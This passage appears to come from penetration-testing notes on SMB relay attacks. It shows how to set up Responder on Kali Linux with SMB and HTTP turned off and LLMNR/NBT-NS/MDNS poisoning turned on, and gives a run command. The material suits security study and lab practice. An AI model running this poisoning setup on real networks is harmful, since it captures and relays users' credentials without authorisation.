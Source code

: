 

* **Start Responder with changed configuration:** Switch SMB and HTTP off by
editing the config file stored under `/etc/responder/Responder.conf` and
running Responder with `sudo responder -I <interface> -dwP` (again: switches w
and P incompatible, change to `-dP`)

```
    ┌──(kali㉿kali)-[~]
    └─$ cat /etc/responder/Responder.conf
    [Responder Core]

    ; Poisoners to start
    MDNS  = On
    LLMNR = On
    NBTNS = On

    ; Servers to start
    SQL      = On
    SMB      = Off
    RDP      = On
    Kerberos = On
    FTP      = On
    POP      = On
    SMTP     = On
    IMAP     = On
    HTTP     = Off
    HTTPS    = On
    DNS      = On
    LDAP     = On
    DCERPC   = On
    WINRM    = On
    SNMP     = Off
    MQTT     = On

    ; Custom challenge.
    (...)
```

<img src="./images/SMB_Relay_Attacks_Overview_3.png" alt="SMB Relay Attacks Overview 3" width="800"/>
